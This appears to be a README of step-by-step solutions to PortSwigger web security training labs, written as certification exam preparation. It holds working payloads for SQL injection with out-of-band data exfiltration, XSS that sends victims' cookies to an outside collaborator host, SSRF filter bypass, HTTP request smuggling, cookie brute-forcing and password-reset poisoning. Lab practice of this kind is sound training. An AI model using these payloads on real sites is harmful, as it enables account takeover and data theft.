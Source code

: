 "These labs have been selected because they reinforce core web security testing skills - such as understanding encodings and using them to evade defences, and proficiency in exploiting cross-user attacks. These specific labs support your exam preparation in terms of skill development, but they are in no way a list of the components you'll be expected to solve to complete the exam."

# [0x1] Lab: SQL injection with filter bypass via XML encoding
You will need [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) Burp Suite Extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
      <productId>
        2
      </productId>
    <storeId>
      <@hex_entities>
        1 union select password from users where username='administrator' 
      <@/hex_entities>
    </storeId>
  </stockCheck>
```

# [0x2] Lab: Blind SQL injection with out-of-band data exfiltration
### Identify vulnerability:
```sql
aaxaxa'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
```
Control + U for URL Encoding and SEND

### Data exfiltration
```sql
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```
Control + U for URL Encoding and SEND

# [0x3] Lab: Exploiting cross-site scripting to steal cookies 
A simulated victim user views all comments after they are posted.<br>
Write this payload into comment section:
```js
<script> document.location = "http://<BURP-COLLABORATOR>/?" + document.cookie </script>
```

# [0x4] Lab: SSRF with blacklist-based input filter
```
http://127.1/%2561dmin/delete?username=carlos
```

# [0x5] Lab: Exploiting HTTP request smuggling to capture other users' requests

Send this request to repeater and with HTTP Request Smuggler extension CL.TE send the requests a lot of times till the victim user visit our post requests
```
POST / HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Connection: close
Transfer-Encoding: chunked
Content-Length: 382

0

POST /post/comment HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 910
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c

csrf=OFh9DBRBkec4d8Xmh2rzVGNUZuDZlbH0&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=aa
```

# [0x6] Lab: Brute-forcing a stay-logged-in cookie
Login in our account `wiener:peter` and enable the option button `Stay logged in`. When successflly login intercept a GET request at `my-account` and a `stay-logged-in` cookie will appear.

Overtake carlos account steps:
- Send request to Intruder
- Menu bar => Payloads => Payload Processing
  - Add Hash:MD5
  - Add prefix:`carlos:`
  - Add Encode:Base64-encode
- Add $$ after = in `stay-logged-in` cookie e.g. `stay-logged-in=$$`
The last step is bruteforce passwords with these [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords). DONT FORGET TO LOGOUT FROM WIENER ACCOUNT
![image](https://user-images.githubusercontent.com/45040001/193135064-b1b6ab39-ce48-4a14-af92-92a3ed7ba26e.png)

# [0x7] Email Reset User Takeover
Go to 'Forgot you password?' functionality, if you can put a name instead of email put 'carlos' username and intercept the post request.
For the next step we have to open the exploit server and copy the exploit server host, insert 'X-Forwarded-Host' header with exploit server host for value and forward the request.
Our last step is to open the http logs from exploit server and take the reset link with new password functionality

# [0x8] onpopstate event XSS cookie retrieve 
You have to encode the payload with hackvertor extension.
Ps. Don't forget the ``` ` ``` quote after onpopstate=document.location=<HERE QUOTES> 
```
<@burp_urlencode>

<iframe onload="if(!window.flag){this.contentWindow.location='https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>#';flag=1}" src="https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>"></iframe>

<@/burp_urlencode>
```
